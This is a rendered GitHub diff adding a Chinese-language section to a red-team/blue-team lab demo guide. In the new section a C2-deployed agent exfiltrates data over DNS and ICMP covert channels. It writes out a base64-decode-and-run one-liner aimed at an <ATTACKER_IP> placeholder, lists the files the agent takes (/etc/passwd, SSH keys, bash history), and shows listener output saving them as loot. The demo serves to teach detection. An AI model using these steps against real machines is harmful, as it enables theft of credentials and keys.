

Before and after one commit to mickeytony0215-png/Cybersecurity-project, a Markdown page: docs/DEMO_FLOW.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/docs/DEMO_FLOW.md
+++ b/docs/DEMO_FLOW.md
@@ -289,6 +289,73 @@ target-machine
 
 ---
 
+## 回合 2b — 紅方資料外傳（利用 C2 控制權）
+
+> **目的**：展示紅方取得控制後立即進行 data exfiltration，透過 DNS/ICMP covert channel 外傳敏感資料
+> **MITRE ATT&CK**: T1005 (Data from Local System), T1048.003 (Exfiltration Over Alternative Protocol)
+
+### T3 — 在 C2 中部署 Exfil Agent
+
+先在 WSL2 另開一個終端啟動 Exfil Listener：
+
+```bash
+sudo .venv/bin/python3 red_team/exfil_listener.py
+```
+
+預期輸出：
+```
+[*] Exfil Listener starting...
+[*] DNS listener on UDP 53 (interface: eth0)
+[*] ICMP listener ready
+[*] Waiting for incoming data...
+```
+
+### T3 — 透過 C2 部署 Agent 到靶機
+
+在 C2 prompt 中，用 `deploy_agent.sh` 產生的 one-liner 部署：
+
+```bash
+# 先在 WSL2 產生 deploy 指令
+bash red_team/deploy_agent.sh <ATTACKER_IP>
+```
+
+將產生的指令貼到 C2 prompt 中執行：
+
+```
+C2> echo '<base64>' | base64 -d > /tmp/.cache_update.py && python3 /tmp/.cache_update.py <ATTACKER_IP>
+```
+
+Agent 會自動：
+1. 蒐集 `/etc/passwd`、`~/.ssh/*`、`~/.bash_history`、`~/vuln_api.py` 等
+2. 偵測可用通道（DNS 優先，ICMP 備用）
+3. Base32 編碼 + 分塊，透過 DNS query 送出
+4. 完成後自動刪除自身
+
+### T3 — 觀察 Listener 接收
+
+預期輸出：
+```
+[+] START file_id=a1b2 filename=passwd
+[+] Receiving: 0003/0042 (a1b2)
+...
+[+] END file_id=a1b2 checksum=OK
+[+] Saved: ./loot/passwd
+
+[+] START file_id=c3d4 filename=bash_history
+...
+[+] Saved: ./loot/bash_history
+```
+
+### 講解要點
+
+- 紅方取得控制後**立即**外傳資料 — 這才是真實攻擊的流程
+- DNS exfiltration 把資料編碼成 subdomain（`data.fileid.x.exfil.local`），看起來像普通 DNS query
+- 這類 covert channel 不觸發 eBPF 監控的任何 syscall pattern（沒有 memfd、沒有 reverse shell）
+- 即使後續藍方開啟 eBPF v1/v2，資料**已經外傳完畢**，防禦來不及
+- 要偵測 DNS exfiltration 需要另外的機制：DNS query pattern 分析、subdomain 長度異常偵測等
+
+---
+
 ## 回合 3 — 藍方上線，發現並清除威脅
 
 **目的**：展示 eBPF 冷啟動掃描能發現已存在的記憶體惡意程式
````
Also changed, not shown: other parts of docs/DEMO_FLOW.md (+9 -71 lines).
